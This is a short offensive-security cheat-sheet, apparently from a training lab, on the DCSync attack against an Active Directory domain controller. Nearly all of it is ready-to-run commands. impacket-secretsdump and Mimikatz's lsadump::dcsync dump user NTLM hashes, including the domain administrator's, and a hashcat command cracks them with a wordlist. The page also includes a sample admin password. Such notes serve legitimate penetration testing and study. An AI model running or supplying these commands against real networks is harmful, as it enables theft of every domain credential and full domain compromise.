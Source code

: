 # Domain Controller Synchronization

{% hint style="danger" %}
need access to a user that is a member of _Domain Admins_, _Enterprise Admins_, or _Administrators_

* _or Replicating Directory Changes_, _Replicating Directory Changes All_, and _Replicating Directory Changes in Filtered Set_ rights
{% endhint %}

By impersonating a domain controller, we can use replication to obtain any domain user credentials from a domain controller.&#x20;

### Linux

&#x20;Perform a dcsync attack to obtain the NTLM hash of _dave:_

{% code overflow="wrap" %}
```sh
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
{% endcode %}

* **-just-dc-user**: target user
* **domain/user:password@ip**

### Windows

Perform a dcsync attack to obtain the credentials of _dave:_

{% code title="Mimikatz" %}
```powershell
lsadump::dcsync /user:corp\dave
```
{% endcode %}

* can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator _Administrator_

### Hash Cracking

{% code overflow="wrap" %}
```shell
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
